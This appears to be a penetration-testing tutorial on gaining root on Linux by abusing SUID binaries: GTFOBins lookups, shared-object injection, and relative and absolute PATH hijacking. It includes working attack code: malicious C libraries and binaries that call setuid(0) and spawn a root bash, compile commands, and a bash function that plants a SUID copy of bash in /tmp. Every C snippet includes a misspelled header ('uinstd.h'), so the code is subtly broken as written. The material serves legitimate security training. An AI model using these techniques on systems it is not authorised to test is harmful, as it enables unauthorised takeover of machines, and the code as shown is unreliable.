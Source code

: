 # Introduction
The Set Owner User ID (SUID) and Set Group ID (SGID) are special permissions which can be attributed to Linux files and folders. If a file has either of those set, then it will be executed with the privileges of the owner / group, respectively, no matter which user actually invoked the command to run the file. 

Therefore, any files which are owned by root and have SUID set will be executed with elevated privileges. Our goal is to hunt down those files and abuse them in order to escalate our privileges. This can be easily done with the following command:

```bash
find / -perm -u=s -type f -user root 2>/dev/null
```

![](Resources/Images/Abusing%20SUID%20&%20SGID%20Binaries/Finding%20SUID%20Binaries.png)

## Exploiting Misconfigured Common Binaries
You should diligently inspect the list of files returned. Some standard Linux binaries may allow for privilege escalation if they have the SUID bit set for one reason or another. It is useful to go through these binaries check them on [GTFOBins](https://gtfobins.github.io/).

 In the above example, we find that `/bin/systemctl` has the SUID bit set and that it also has an [entry in GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/#suid):

![](Resources/Images/Abusing%20SUID%20&%20SGID%20Binaries/Systemctl%20GTFOBins.png)

By following the instructions, although with slight modifications, we can run commands with escalated privileges:

![](Resources/Images/Abusing%20SUID%20&%20SGID%20Binaries/Systemctl%20Escalated%20Privileges.png)

## Privilege Escalation via Shared Object Injection
Some binaries may be vulnerable to Shared Object (SO) Injection. This typically stems from misconfigurations where the binaries looks for a specific library in a specific directory, but can't actually find that library. If we have write access to this directory, we can hijack the search for the library by compiling our own malicious library in the place where the original was supposed to be. This is quite similar to [escalating via LD_PRELOAD](Sudo%20Escalation%20via%20LD_PRELOAD.md), but it is a bit more difficult to find and exploit.

You will first need to identify an SUID binary which has shared library misconfigurations. A lot of the times the binary will refuse to run, telling that it is missing a particular library, however, this is not always the case:

![](Resources/Images/Abusing%20SUID%20&%20SGID%20Binaries/suid-so%20Run.png)

It is always good practice to run the programme with `strace`, which will print any attempts of the binary to access libraries:

```bash
strace <binary> 2>&1 | grep -iE "open|access"
```

![](Resources/Images/Abusing%20SUID%20&%20SGID%20Binaries/strace%20Library%20Misconfigurations.png)

What stands out in particular is the `/home/user/.config/libcalc.so` library, since `/home/user/.config/` may be a writable directory. It turns out that the directory doesn't even exist, however, we can write to `/home/user/` which means that we can create it:

What now remains is to compile a malicious library into `libcalc.so`.

```cpp
#include <uinstd.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject()
{
	setuid(0);
	setgid(0);
	system("/bin/bash -i");
}
```

For older versions of GCC, you may need to use the `_init()` function syntax:

```cpp
#include <uinstd.h>
#include <stdlib.h>

void _init()
{
	setuid(0);
	setgid(0);
	system("/bin/bash -i");
}
```

Compile the malicious library:
```bash
gcc -shared -fPIC -o libcalc.so libcalc.c # add -nostartfiles if using _init()
```

![](Resources/Images/Abusing%20SUID%20&%20SGID%20Binaries/Shared%20Object%20Injection%20Successful.png)

## Privilege Escalation via Path Hijacking
Path Hijacking refers to the deliberate manipulation of environmental variables, most commonly `$PATH`, such that the invocations of programmes in a binary actually refer to malicious binaries and not the intended ones.

This vector requires more sophisticated digging into the internals of an SUID binary, specifically tracking down the different invocation the binary performs. This can commonly be achieved by running `strings` on the binary, but you will probably have to resort to more serious reverse engineering, as well. Specifically, you want to be on the lookout for shell commands which get executed by the SUID binary.

### Hijacking Relative Paths
Relative paths are comparably easy to hijack - they require little other than editing the `$PATH` variable. Once you have identified a shell command within an SUID binary which invokes another programme via a relative path, you can just prepend to the `$PATH` a directory which will contain an executable with the same name as the one originally invoked.

![](Resources/Images/Abusing%20SUID%20&%20SGID%20Binaries/Start%20Apache%20Relative%20Path.png)

Let's compile our own malicious binary. 

```cpp
#include <uinstd.h>
#include <stdlib.h>

int main()
{
	setuid(0);
	setgid(0);
	system("/bin/bash -i");

	return 0;
}
```

```bash
gcc -o /tmp/service /tmp/service.c
```

Afterwards, we need to prepend `/tmp` to the `$PATH` variable:
```bash
export PATH=/tmp:$PATH
```

And finally, run the original SUID binary:

![](Resources/Images/Abusing%20SUID%20&%20SGID%20Binaries/Hijacked%20Relative%20Path.png)

### Hijacking Absolute Paths
Absolute paths require a bit more work to be hijacked. 

![](Resources/Images/Abusing%20SUID%20&%20SGID%20Binaries/Start%20Apache%20Absolute%20Path.png)

Luckily, bash turns out to be very sophisticated and allows to create functions which have the forward slash (`/`) character in their name. This means that we can create a malicious bash functions with the same name as the absolute path we want to hijack and then our function will be invoked instead of the original programme.

First, create the bash function:
```bash
function <absolute path here>() { cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p; }
```

Next, export the function:
```bash
export -f <absolute path here>
```

Finally, run the original SUID binary:

![](Resources/Images/Abusing%20SUID%20&%20SGID%20Binaries/Hijacked%20Absolute%20Path.png)